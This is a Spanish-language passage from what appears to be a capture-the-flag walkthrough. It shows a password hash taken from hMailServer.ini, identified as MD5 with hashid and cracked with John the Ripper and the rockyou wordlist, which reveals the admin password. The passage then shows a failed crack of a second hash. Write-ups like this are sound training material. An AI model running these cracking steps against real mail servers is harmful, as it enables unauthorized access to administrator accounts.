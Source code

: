 
Y conseguimos acceso al archivo hMailServer.ini. El archivo contiene el hash de la contraseña del administrador. Si desciframos este hash podríamos obtener la pass en texto plano y acceder al panel de admin de hMailServer, lo que nos permitiría controlar todos los aspectos del servidor de correo.

Antes de intentar descifrar el hash es importante identificar de que tipo es. Parece ser un MD5 por su longitud y estructura (32 caracteres hexadecimales). Puedes usar herramientas como hashid o hash-identifier para identificar el tipo de hash. 
```bash
❯ hashid 841bb5acfa6779ae432fd7a4e6600ba7

Analyzing '841bb5acfa6779ae432fd7a4e6600ba7'
[+] MD2 
[+] MD5 
[+] MD4 
[+] Double MD5 
[+] LM 
[+] RIPEMD-128 
[+] Haval-128 
[+] Tiger-128 
[+] Skein-256(128) 
[+] Skein-512(128) 
[+] Lotus Notes/Domino 5 
[+] Skype 
[+] Snefru-128 
[+] NTLM 
[+] Domain Cached Credentials 
[+] Domain Cached Credentials 2 
[+] DNSSEC(NSEC3) 
[+] RAdmin v2.x 
```

Vamos a intentar descrifar el hash.

### <span style="color:#68e8ff"> John the Ripper: </span>
```bash
❯ echo "841bb5acfa6779ae432fd7a4e6600ba7" > hashAdminPass.txt

❯ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashAdminPass.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
homenetworkingadministrator (?)     
1g 0:00:00:00 DONE (2024-09-08 16:35) 3.030g/s 22915Kp/s 22915Kc/s 22915KC/s homerandme..homejame
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

```bash

❯ john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashMSSQLCE.txt.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:00 DONE (2024-09-08 16:43) 0g/s 20787Kp/s 20787Kc/s 20787KC/s  fuckyooh21..*7¡Vamos!
Session completed. 
```

